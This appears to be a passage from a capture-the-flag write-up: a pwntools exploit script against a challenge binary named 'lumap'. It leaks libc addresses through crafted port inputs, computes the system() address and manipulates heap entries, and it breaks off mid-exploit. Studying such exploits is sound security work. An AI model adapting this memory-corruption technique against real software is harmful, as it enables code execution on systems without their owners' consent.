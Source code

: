 The exploit:
```python
#!/usr/bin/env python3

from pwn import *
import sys
elf = ELF('./lumap')
p = elf.process()

def scanIP(ip, ports):
    p.readuntil(b':')
    p.sendline(ip.encode())
    p.readuntil(b':')
    p.sendline(ports)

def showIP(index):
    p.readuntil(b':')
    p.sendline(b'1')
    p.readuntil(b':')
    p.sendline(index.encode())

def deleteIP(index):
    p.readuntil(b':')
    p.sendline(b'2')
    p.readuntil(b':')
    p.sendline(index.encode())

scanIP("127.0.0.1", ",,,,,,,,,,,,,,,,,,,,,,,,10")
p.sendline(b'y')
scanIP("127.0.0.2", ",,,,,,,,,,,,,,,,,,,,,,,10")
showIP("0")
p.readuntil(b'closed10,')
Leak1 = p.readuntil(b'\n')[:-1]
Leak1 = hex(int(Leak1[6:]))

showIP("1")
p.readuntil(b'closed10,')
Leak2 = p.readuntil(b'\n')[:-1]
Leak2 = Leak2[6:]
if (Leak2[0] == 45):
    print("Try again lol")
    sys.exit()
Leak2 = hex(int(Leak2))
Leak2 = Leak2[2:]
Leak = int(Leak1 + Leak2, 16)
Leak = Leak - 6466976
print("LIBC BASE {}".format(hex(Leak)))

deleteIP("0")
deleteIP("1")

for i in range(1, 32):
    p.readuntil(b':')
    p.sendline(b'3')
    scanIP(f"127.0.0.{i}", "80,"*32)

system = (hex(Leak + 331120))[2:]
libc = (hex(Leak + 1934968))[2:]

num1 = str(int(libc[0:4], 16)).encode()
num2 = str(int(libc[4:8], 16)).encode()
num3 = str(int(libc[8:12], 16)).encode()

num4 = str(int(system[0:4], 16)).encode()
```